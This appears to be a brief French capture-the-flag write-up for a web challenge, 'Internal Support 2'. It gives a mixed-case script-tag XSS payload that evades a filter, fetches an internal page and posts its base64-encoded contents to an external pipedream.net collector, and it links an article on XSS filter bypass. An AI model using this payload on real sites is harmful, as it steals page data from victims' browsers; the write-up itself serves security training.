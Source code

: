 #  Internal Support 2

> Categorie(s): `web`

![Consigne](img/consigne.png)

Pour bypass le filtre XSS:

```html
<ScRipT>fetch('http://internalsupport22.chall.malicecyber.com/').then(res => res.text()).then(txt => fetch('https://bc9bcfc718702fae643f6fa6c0fd0c58.m.pipedream.net/', { method: 'POST', body: JSON.stringify({data: btoa(txt)})}))</sCriPt>
```

## Liens utiles

- [Advanced Techniques to Bypass & Defeat XSS Filters, Part 1](https://null-byte.wonderhowto.com/how-to/advanced-techniques-bypass-defeat-xss-filters-part-1-0190257/)